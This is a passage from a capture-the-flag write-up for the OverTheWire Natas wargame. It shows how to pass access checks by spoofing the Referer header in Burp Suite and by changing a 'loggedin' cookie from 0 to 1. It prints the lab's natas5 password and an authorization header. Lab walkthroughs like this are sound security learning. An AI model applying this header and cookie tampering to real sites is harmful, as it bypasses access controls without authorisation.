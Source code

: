 Suspect that it has something to do with the request headers. Inspect them using the browser console. See:

```
Referer: http://natas4.natas.labs.overthewire.org/
```

Try to change that. A way is using Burp Suite. Edit the request header: intercept the request with Proxy, send it to Repeater and edit the `Referer` header setting it to `http://natas5.natas.labs.overthewire.org/`. This gives us a different response which contains:

```
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```

## Natas 5

### Credentials

Username: natas5

Password: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

URL: http://natas5.natas.labs.overthewire.org

### Message

Access disallowed. You are not logged in

### Solution

Intercepting the request, we see that this is:

```
GET /index.php HTTP/1.1
Host: natas5.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXM1OjBuMzVQa2dnQVBtMnpiRXBPVTgwMmMweDBNc24xVG9L
Accept-Language: en-GB
Upgrade-Insecure-Requests: 1
User-Agent: [UNDISCLOSED]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: loggedin=0
Connection: keep-alive
```

Reading carefully, we notice: `Cookie: loggedin=0`.

Try to set this to `1` and resend the request...
